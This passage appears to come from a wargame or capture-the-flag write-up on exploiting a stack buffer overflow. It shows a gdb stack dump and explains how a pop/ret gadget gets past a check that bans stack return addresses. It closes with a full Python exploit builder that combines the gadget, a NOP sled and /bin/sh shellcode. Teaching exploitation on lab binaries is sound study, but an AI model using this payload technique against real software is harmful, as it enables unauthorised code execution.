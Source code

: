 Let's fill in these 2 new values, the first of which is a target return address that we require! Let's fire a tonne of values into the process and see where we land:

```
(gdb) x/30wx $esp
0xbffffca0:	0x43434343	0x44444444	0x45454545	0x46464646
0xbffffcb0:	0x47474747	0x48484848	0x49494949	0x4a4a4a4a
0xbffffcc0:	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d	0x4e4e4e4e
0xbffffcd0:	0x4f4f4f4f	0x50505050	0x51515151	0x52525252
0xbffffce0:	0x53535353	0xb7fd7f00	0x00000000	0x00000000
0xbffffcf0:	0xbffffd28	0x2a2f9303	0x006e8513	0x00000000
0xbffffd00:	0x00000000	0x00000000	0x00000001	0x08048410
0xbffffd10:	0x00000000	0xb7ff6210
```

Okay, so this is where I tripped a little bit. All our address start with the 'b' bit, which, is a banned value for our return address... but me being me, I'm pretty derpy, I missed the point that our return address has already been checked and signed as legitimate because of the above gadget "0x080485f8". In theory, if I now 'return' from the gadget into the stack, we should be allowed to perform some execution... right?

Focusing on the memory above, let's start to swap out some of the values manually to see where we should technically be able to return too. Remember, our 'planned' payload is the following:

```
junk + pop/ret + (pop junk) + return address + shellcode
```

A quick breakdown of the values swapped in the stack can be seen here:

- 43434343 will be our "pop junk", used by our pop/ret gadget
- 44444444 will be our return address, this could be somewhere in the above stack dump
- 45454545 could be the start of our shellcode, meaning 44444444 would be the address of this point in memory in this case

Let's try the following as our payload. Note, we have added our gadget, the required junk, a return address and our own shellcode:

```
import struct
def build():
    padding = 'A' * 80
    pop_ret_gadget = 0x080485f8
    pop_junk = "BBBB"
    ret_addr = 0xbffffcd0
    nop_sled = "\x90" * 100
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

    payload = padding
    payload += struct.pack("I", pop_ret_gadget)
    payload += pop_junk
    payload += struct.pack("I", ret_addr)
    payload += nop_sled
    payload += shellcode
    print payload

build()
```

